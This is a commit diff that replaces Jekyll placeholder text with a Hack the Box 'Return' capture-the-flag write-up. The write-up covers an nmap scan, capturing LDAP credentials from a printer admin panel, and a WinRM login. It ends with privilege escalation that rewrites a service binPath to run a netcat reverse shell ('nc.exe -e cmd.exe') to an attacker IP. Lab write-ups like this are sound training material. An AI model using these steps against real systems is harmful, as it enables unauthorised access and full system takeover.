

Before and after one commit to 0o176/0o176.github.io, a Jekyll site: the page built from Content/Writeups/HTB-Return/HTB-Return.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update HTB-Return.md

````diff
--- a/Content/Writeups/HTB-Return/HTB-Return.md
+++ b/Content/Writeups/HTB-Return/HTB-Return.md
@@ -1,117 +1,145 @@
 ---
 layout: post
-title: "HTB Return"
+title: "HTB: Return"
 ---
 
-Text can be **bold**, _italic_, or ~~strikethrough~~.
+Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.
 
-[Link to another page](./another-page.html).
+# Recon
 
-There should be whitespace between paragraphs.
+## nmap
 
-There should be whitespace between paragraphs.
-
-# Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
+```shell-session
+sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
 ```
 
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
+nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**
+
+```
+PORT      STATE SERVICE       VERSION
+53/tcp    open  domain        Simple DNS Plus
+80/tcp    open  http          Microsoft IIS httpd 10.0
+|_http-server-header: Microsoft-IIS/10.0
+| http-methods:
+|   Supported Methods: OPTIONS TRACE GET HEAD POST
+|_  Potentially risky methods: TRACE
+|_http-title: HTB Printer Admin Panel
+88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
+135/tcp   open  msrpc         Microsoft Windows RPC
+139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
+389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
+445/tcp   open  microsoft-ds?
+464/tcp   open  kpasswd5?
+593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
+636/tcp   open  tcpwrapped
+3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
+3269/tcp  open  tcpwrapped
+5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
+|_http-server-header: Microsoft-HTTPAPI/2.0
+|_http-title: Not Found
+9389/tcp  open  mc-nmf        .NET Message Framing
+47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
+|_http-server-header: Microsoft-HTTPAPI/2.0
+|_http-title: Not Found
+49664/tcp open  msrpc         Microsoft Windows RPC
+49665/tcp open  msrpc         Microsoft Windows RPC
+49666/tcp open  msrpc         Microsoft Windows RPC
+49668/tcp open  msrpc         Microsoft Windows RPC
+49671/tcp open  msrpc         Microsoft Windows RPC
+49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
+49675/tcp open  msrpc         Microsoft Windows RPC
+49678/tcp open  msrpc         Microsoft Windows RPC
+49681/tcp open  msrpc         Microsoft Windows RPC
+49694/tcp open  msrpc         Microsoft Windows RPC
+52638/tcp open  msrpc         Microsoft Windows RPC
+Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
+
+Host script results:
+| smb2-security-mode:
+|   3:1:1:
+|_    Message signing enabled and required
+|_clock-skew: 18m32s
+| smb2-time:
+|   date: 2024-10-30T09:39:39
+|_  start_date: N/A
 ```
 
-#### Header 4
+## SMB - TCP 445
 
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
+Dead end at the moment, maybe we will come back when we find some credentials.
 
-##### Header 5
+![SMB](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-10-52.png)
 
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
+## Web - TCP 80
 
-###### Header 6
+The website is a 'HTB Printer Admin Panel'
+![Web](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)
 
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
+# Shell as svc-printer
 
-### There's a horizontal rule below this.
+On the 'Settings' tab ther eis pre-filled form
+![Web2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)
 
-* * *
+## Burp
 
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
+When using burp to check the POST request only one argument is send:
 
 ```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
+ip=printer.return.local
 ```
+The other three fields in the form are not.
+User can only change the Server Address ('ip'), and not port, username or password.
 
+## Request
+
+If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.
+
+![Request](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-42.png)
+![Request2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-58.png)
+
+...and it’s trying to authenticate so we have username and password.
+
+## WinRM
+
+Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM
+
+![WinRm_shell](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)
+
+and get the user flag
+
+![WinRm_shell](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)
+
+# Privilege Escalation
+
+## Groups and Privileges
+
+First of all, let's check our privileges,
+
+![priv](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)
+
+and also groups.
+
+![priv2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)
+
+A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.
+
+## Reverse shell
+
+Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.
+
+Upload the nc.exe
+
+![nc](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)
+
+Now modify a service binary path, stop and restart the service:
+
+```shell-session
+sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
 ```
-The final element.
-```
+![sh](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)
+
+Start listener and as soon as we start the service again we catch the shell.
+
+![sh2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)
+
+![sh2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)
````
